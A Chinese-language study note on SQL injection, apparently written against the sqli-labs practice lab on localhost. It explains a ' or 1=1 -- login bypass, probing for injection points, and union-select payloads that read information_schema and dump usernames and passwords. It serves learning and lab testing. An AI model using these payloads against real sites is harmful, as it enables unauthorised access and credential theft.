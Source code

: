 ### 原理
登录SQL语句：
`select*from admin where username='用户输入的用户名'and password='用户输入的密码'`
用户输入的内容可由用户自行控制，例如可以输入`' or 1=1 --空格`
SQL语句：`select*from admin where username='' or 1=1 -- 'and password='`
用户输入的密码其中or1=1永远为真，--注释后边内容不再执行，因此SQL语句执行会返回admin表中的所有内容。


根据注入位置数据类型可将SQL注入分为两类：数字型和字符型。

例如：
数字型：`select*from table where id=用户输入id`

字符型：`select*from table where id='用户输入id'`

判断是否存在注入点
通过在URL中修改对应的ID值，为正常数字、大数字、字符（单引号、双引号、双单引号、括号）、反斜杠\来探测URL中是否存在注入点。

' %27
" %22
回车 %0a
空格 %20或者+
% %25
? %3f
; %3b


### 报错注入

order by i

对select的内容进行排序，默认升序，可以加关键字

i为字段数（第几列）
按照第i个字段对数据进行行排序

1、利用order by判断字段数。

http://localhost/0/sqli-labs-master/Less-1/?id=1%27%20order%20by%204--+



2、利用union select联合查询，获取表名。
0' union select 1,group_concat(table_name),3 from information_schema.tables where table_schema=database()--+


3、利用union select 联合查询，获取字段名。
0' union select 1,group_concat(column_name),3 from information_schema.columns where table_name='users'--+


4、利用union select联合查询，获取字段值。
0' union select 1,group_concat(username,0x3a,password),3 from users--+


0x3a:冒号的16进制，用于分割,显示清楚
可以换成数字，字符的十六进制

利用union select和聚合函数查询当前用户，当前数据库名和数据库版本
http://localhost/0/sqli-labs-master/Less-1/?id=0' UNION SELECT 1,CONCAT_WS(CHAR(32,58,32),user(),database(),version()),3--+
